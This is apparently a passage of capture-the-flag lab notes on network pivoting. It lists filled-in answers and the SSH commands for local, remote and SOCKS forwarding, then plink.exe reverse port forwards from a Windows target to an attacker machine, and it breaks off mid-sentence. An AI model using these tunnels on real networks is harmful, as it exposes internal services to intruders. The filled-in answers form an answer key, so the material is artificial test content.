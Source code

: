 **Answer the questions below**

**If you're connecting to an SSH server from your attacking machine to create a port forward, would this be a local (L) port forward or a remote (R) port forward?**

- `Local`

**Which switch combination can be used to background an SSH port forward or tunnel?**

- `-fN`

**It's a good idea to enter our own password on the remote machine to set up a reverse proxy, Aye or Nay?**

- `nay`

**What command would you use to create a pair of throwaway SSH keys for a reverse connection?**

- `ssh-keygen`

**If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called id_rsa and backgrounding the shell, what command would you use? (Assume your username is "kali")**

- `ssh -R 2222:172.16.0.200:22 kali@172.16.0.100 -i id_rsa -fN`

**What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?**

- `ssh -D 8000 user@target.thm -fN`

**If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.**

- `ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN`

* * * 

## Pivoting - plink.exe 

plink is Puttys windows commmand line version of ssh. Windows servers are unlikely to have SSH servers running so transferring plink binaary to the target and using it to create a reverse connection can be done with the following: 

- `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N` 

Pretty much identical to the ssh commands. the `cmd.exe /c echo y` command is for non-interactive shells, in order to get around the wartning message that the target has not connected to the host before.

If we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:

- `cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using sudo apt install putty-tools. After downloading the tool, conversion can be done with:
